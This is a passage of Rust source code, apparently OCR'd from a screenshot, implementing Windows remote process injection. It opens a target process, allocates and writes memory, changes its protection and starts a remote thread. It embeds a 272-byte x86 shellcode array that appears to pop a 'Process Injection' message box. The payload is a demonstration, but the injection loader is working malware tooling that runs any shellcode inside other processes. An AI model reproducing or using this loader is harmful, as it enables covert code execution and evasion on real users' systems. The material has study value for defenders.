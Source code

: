 ```rust
                                        0,
                                        transmute(remotememory_ptr),
                                        None,
                                        0,
                                        None,
                                    );

                                    match result_createremotethread {
                                        Ok(handle_tread) => {
                                            println!("Thread Created");
                                            let _ = CloseHandle(handle_tread);
                                        }
                                        Err(error) => {
                                            println!("CreateRemoteThread Error: {}", error)
                                        }
                                    }
                                }
                                Err(error) => {
                                    println!("VirtualProtectEx Error: {}", error)
                                }
                            }
                        }

                        Err(error) => {
                            println!("WriteProcessMemory Error: {}", error)
                        }
                    }
                } else {
                    println!("VirtualAllocEx Error")
                }
                let _ = CloseHandle(handle_process);
            }
            Err(error) => {
                println!("OpenProcess Error: {}", error)
            }
        }
    }
}

fn main() {
    let payload: [u8; 272] = [
        0xd9, 0xeb, 0x9b, 0xd9, 0x74, 0x24, 0xf4, 0x31, 0xd2, 0xb2, 0x77, 0x31, 0xc9, 0x64, 0x8b,
        0x71, 0x30, 0x8b, 0x76, 0x0c, 0x8b, 0x76, 0x1c, 0x8b, 0x46, 0x08, 0x8b, 0x7e, 0x20, 0x8b,
        0x36, 0x38, 0x4f, 0x18, 0x75, 0xf3, 0x59, 0x01, 0xd1, 0xff, 0xe1, 0x60, 0x8b, 0x6c, 0x24,
        0x24, 0x8b, 0x45, 0x3c, 0x8b, 0x54, 0x28, 0x78, 0x01, 0xea, 0x8b, 0x4a, 0x18, 0x8b, 0x5a,
        0x20, 0x01, 0xeb, 0xe3, 0x34, 0x49, 0x8b, 0x34, 0x8b, 0x01, 0xee, 0x31, 0xff, 0x31, 0xc0,
        0xfc, 0xac, 0x84, 0xc0, 0x74, 0x07, 0xc1, 0xcf, 0x0d, 0x01, 0xc7, 0xeb, 0xf4, 0x3b, 0x7c,
        0x24, 0x28, 0x75, 0xe1, 0x8b, 0x5a, 0x24, 0x01, 0xeb, 0x66, 0x8b, 0x0c, 0x4b, 0x8b, 0x5a,
        0x1c, 0x01, 0xeb, 0x8b, 0x04, 0x8b, 0x01, 0xe8, 0x89, 0x44, 0x24, 0x1c, 0x61, 0xc3, 0xb2,
        0x08, 0x29, 0xd4, 0x89, 0xe5, 0x89, 0xc2, 0x68, 0x8e, 0x4e, 0x0e, 0xec, 0x52, 0xe8, 0x9f,
        0xff, 0xff, 0xff, 0x89, 0x45, 0x04, 0xbb, 0x7e, 0xd8, 0xe2, 0x73, 0x87, 0x1c, 0x24, 0x52,
        0xe8, 0x8e, 0xff, 0xff, 0xff, 0x89, 0x45, 0x08, 0x68, 0x6c, 0x6c, 0x20, 0x41, 0x68, 0x33,
        0x32, 0x2e, 0x64, 0x68, 0x75, 0x73, 0x65, 0x72, 0x30, 0xdb, 0x88, 0x5c, 0x24, 0x0a, 0x89,
        0xe6, 0x56, 0xff, 0x55, 0x04, 0x89, 0xc2, 0x50, 0xbb, 0xa8, 0xa2, 0x4d, 0xbc, 0x87, 0x1c,
        0x24, 0x52, 0xe8, 0x5f, 0xff, 0xff, 0xff, 0x68, 0x58, 0x20, 0x20, 0x20, 0x68, 0x77, 0x61,
        0x72, 0x65, 0x68, 0x52, 0x75, 0x73, 0x74, 0x31, 0xdb, 0x88, 0x5c, 0x24, 0x08, 0x89, 0xe3,
        0x68, 0x6e, 0x58, 0x20, 0x20, 0x68, 0x63, 0x74, 0x69, 0x6f, 0x68, 0x49, 0x6e, 0x6a, 0x65,
        0x68, 0x65, 0x73, 0x73, 0x20, 0x68, 0x50, 0x72, 0x6f, 0x63, 0x31, 0xc9, 0x88, 0x4c, 0x24,
        0x11, 0x89, 0xe1, 0x31, 0xd2, 0x52, 0x53, 0x51, 0x52, 0xff, 0xd0, 0x31, 0xc0, 0x50, 0xff,
        0x55, 0x08,
    ];
    let payload_len = payload.len();
    let payload_ptr: *const c_void = payload.as_ptr() as *const c_void;
```